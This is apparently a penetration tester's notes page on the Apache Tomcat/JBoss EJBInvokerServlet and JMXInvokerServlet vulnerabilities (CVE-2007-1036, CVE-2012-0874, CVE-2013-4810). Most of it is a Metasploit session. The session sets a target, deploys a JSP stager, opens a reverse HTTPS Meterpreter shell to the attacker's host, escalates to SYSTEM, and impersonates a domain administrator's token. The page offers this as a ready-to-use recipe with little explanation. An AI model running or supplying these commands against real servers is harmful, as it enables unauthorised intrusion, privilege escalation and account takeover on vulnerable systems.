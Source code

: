 ```yaml
---
title : "CVE-2007-1036"
# pre : ' '
description : "Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities."
date : 2020-06-24T11:33:36+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities

* CVE-2007-1036
* CVE-2012-0874
* CVE-2013-4810

### Usage

```plain
msf5 use exploit/multi/http/jboss_invoke_deploy
```

### Examples

```plain
msf5 use exploit/multi/http/jboss_invoke_deploy
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHOSTS 10.10.10.10
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHPORT 8180
msf5 exploit(multi/http/jboss_invoke_deploy) > SET PAYLOAD windows/meterpreter/reverse_https
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LHOST 10.10.10.1
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LPORT 8443
msf5 exploit(multi/http/jboss_invoke_deploy) > run

[*] Started HTTPS reverse handler on https://10.10.10.1:8443
[*] Using manually select target: "Windows Universal"
[*] Deploying stager
[*] Calling stager: /EnyMtdpsHwfYUU/idIzmUiHUjmzdC.jsp
[*] Uploading payload through stager
[*] Calling payload: /BiAbpcPbeQku/MAhczELmEptIOJe.jsp
[*] Removing payload through stager
[*] Removing stager
[*] https://10.10.10.1:8443 handling request from 10.10.10.10; (UUID: 4goaaaae) Staging x86 payload (177241 bytes) ...
[*] Meterpreter session 1 opened (10.10.10.1:8443 -> 10.10.10.10:50537) at 1970-01-01 00:01:00 +0200

meterpreter > getsystem
...got system (via technique 1).
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
offsec.nl\adm-JohnDo

meterpreter > impersonate_token offsec.nl\adm-JohnDo
[+] Delegation token available
[+] Successfully impersonated user offsec.nl\adm-JohnDo
meterpreter > getuid
Server username: offsec.nl\adm-JohnDo
```

### URL list

* [Nessus.org](http://www.nessus.org/u?74979c27)
* [Tenable.com - ID 70414](https://www.tenable.com/plugins/nessus/70414)
